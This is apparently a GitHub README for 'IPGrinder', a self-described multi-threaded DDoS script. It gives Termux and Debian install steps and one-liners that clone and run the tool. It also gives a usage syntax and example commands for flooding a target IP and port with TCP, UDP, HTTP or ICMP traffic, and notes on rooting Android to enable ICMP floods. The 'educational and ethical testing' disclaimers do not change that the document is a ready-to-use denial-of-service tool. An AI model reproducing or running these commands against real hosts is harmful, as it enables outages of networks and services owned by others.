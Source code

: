 # IPGrinder

**IPGrinder** is a multi-threaded DDoS script intended for **stress testing infrastructure**.

> ⚠️ This tool is meant for **educational and ethical testing purposes only**. Do **not** use it on networks or systems without explicit authorization.

---

## ⚙️ Setup Instructions

### 📱 Termux (Android)

> 🛑 These commands are for **Termux only**. Do not run them on regular Linux distros.

#### 🔧 Manual Steps

```bash
pkg --check-mirror update
pkg update && pkg upgrade -y
pkg install git python -y
git clone https://github.com/NeoMatrix14241/IPGrinder.git
cd IPGrinder
python -m pip install requests
python ipgrinder.py
```

#### ⚡ One-liner

```bash
pkg --check-mirror update && pkg update && pkg upgrade -y && pkg install git python -y && git clone https://github.com/NeoMatrix14241/IPGrinder.git && cd IPGrinder && python -m pip install requests && python ipgrinder.py
```

---

### 🖥️ Linux (Debian/Ubuntu)

> ✅ Works on most Debian-based distros. Adjust `apt` to your package manager if you're using Arch, Fedora, etc.

#### 🔧 Manual Steps

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install git python3 python3-pip -y
git clone https://github.com/NeoMatrix14241/IPGrinder.git
cd IPGrinder
python3 -m pip install --upgrade pip
python3 -m pip install requests
python3 ipgrinder.py
```

#### ⚡ One-liner

```bash
sudo apt update && sudo apt upgrade -y && sudo apt install git python3 python3-pip -y && git clone https://github.com/NeoMatrix14241/IPGrinder.git && cd IPGrinder && python3 -m pip install --upgrade pip && python3 -m pip install requests && python3 ipgrinder.py
```

---

## 🚀 Usage

```bash
python ipgrinder.py <IP> <PORT> [PROTOCOLS] [THREADS_PER_PROTO] [PACKET_SIZE]
```

---

## ⚠️ ICMP Protocol Usage on Termux

> 🛑 **Important:** ICMP (e.g., ping-based attacks) requires **root access** on Android.
>
> - Your device must be **rooted**.
> - You must have a working `su` binary (e.g., installed via **Magisk**).
> - Without root, `icmp` will fail due to raw socket restrictions.
>
> Other protocols like `udp`, `tcp`, and `http` **do not require root** and will work in non-rooted Termux.


### Parameters

- `<IP>` – Target IP address
- `<PORT>` – Target port
- `[PROTOCOLS]` – Comma-separated list of protocols (udp, tcp, icmp, http, all)
- `[THREADS_PER_PROTO]` – Number of threads per selected protocol
- `[PACKET_SIZE]` – Size of each packet in bytes

### 💡 Example

```bash
python ipgrinder.py 192.168.1.1 80 tcp,udp 100 1024 # <-- For TCP/UDP
python ipgrinder.py 192.168.1.1 80 icmp 100 1024 # <-- For ICMP
python ipgrinder.py 192.168.1.1 80 tcp,udp,http 100 1024 # <-- For TCP/UDP/HTTP
python ipgrinder.py 192.168.1.1 80 all 100 1024 # <-- For all protocols supported (TCP,UDP,HTTP,ICMP)
```

---

## ⚠️ Disclaimer

The creator is **not responsible** for any misuse, damage, or legal consequences resulting from the use of this tool. Use it **only on infrastructure you own or have explicit permission to test**.
